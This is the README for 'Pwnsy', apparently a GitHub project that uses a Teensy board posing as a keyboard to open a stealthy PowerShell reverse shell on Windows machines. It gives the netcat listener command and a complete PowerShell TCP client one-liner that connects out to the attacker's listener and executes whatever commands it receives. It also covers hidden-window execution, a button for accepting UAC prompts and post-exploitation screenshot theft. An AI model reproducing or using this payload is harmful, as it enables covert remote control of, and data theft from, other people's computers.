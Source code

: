 # Pwnsy
Penetration Testing Tool for Windows 7 => 10

Idea : Peensy (Offensive Security)  
Thanks to : @samratashok for the tiny (~280 characters) PowerShell TCP Client

## What does it do
It allows to execute a reverse shell on any Windows machine with PowerShell enabled within a minimal  
amount of time, and in a stealthy manner. 

## How does it works
It uses the abilities of the Teensy boards to deploy a small powershell script, using keyboard emulation.  
The goal of this project was to find a way to launch a TCP Client that would connect to a netcat listener.  

To make it as stealthy as possible, we use the "Run" window, that can be accessed by pressing Windows +R.  
Tho, the amount of text is limited to 260 characters. So we need to run a PowerShell prompt in "Hidden"  
windowstyle, and pass the commands to execute a TCP client. Unfortunately there isn't enough place to  
make the client respond to the commands sent by the netcat listener within 260 chars. 

The solution is to wait for the netcat listener to send the complete version of the TCP Client and execute it.  
That way we can have feedback from a distant machine of what's happening on commands execution sent from the server.  

In case you need an elevated PowerShell prompt to execute script from the server, there is an admin mode  
that will run PowerShell as admin and wait for a button to be pressed to accept the UAC prompt if there is one.  
That way, it's reliable and we don't have to pray for it to pop within a fixed amount of time (no hardcoded delays involved).  

1. Hardware required
   - A Teensy board (2.0 up to 3.6)
   - Switch buttons (3) to configure the different modes without compiling it every time
   - A test PCB to put those
   
What are the buttons doing? 

Button 1. Start typing after the keyboard is ready  
Button 2. Accept the UAC prompt if there is the need to  
Button 3. Admin mode (that will modify the command typed in the Run window in order to execute an elevated  
PowerShell prompt, then wait for the button 2 to be pressed in order to continue)  

## What do I need to setup (Server side)
Simply run netcat on linux, like this :  
`netcat -l -p 1337`

I advice you to run it inside of a loop in bash, so you can exit it with Ctrl+C, because that's needed if you  
send another version of the TCP Client to the client (if you use -k netcat will close when you hit Ctrl+C)  

Once you recieve a connexion, push the complete TCP Client to the client so you can have feedback
on what you execute :  
```  
$b=[text.encoding]::UTF8;while(1){try{;$u=(New-Object Net.Sockets.TCPClient("0.0.0.0",1337)).GetStream();$w=New-Object byte[] 65535;while(($i=$u.Read($w,0,$w.Length)) -ne 0){$d=$b.GetString($w,0,$i);$v=$b.GetBytes((iex $d 2>&1|Out-String));$u.Write($v,0,$v.Length)}}catch{}}
```  
(don't forget to replace the IP and port to fit your situation) 

Restart your netcat listener so the new client version can connect to your port  
Done! You can execute any PowerShell command and get the output in your netcat listener!

## Demo : 
[![5 Seconds Reverse Shell](https://img.youtube.com/vi/8NpX56rHsYY/0.jpg)](https://www.youtube.com/watch?v=8NpX56rHsYY)

## Example of Post-Exploitation payload : 
[![Screenshot Retrieval from Reverse Shell](https://img.youtube.com/vi/HPO-l4Br-zY/0.jpg)](https://www.youtube.com/watch?v=HPO-l4Br-zY)

### Notes
Intended for legal usage ONLY, I'm not liable for anything you do with this code.  
Feel free to give feedback and ideas in order to improve it!
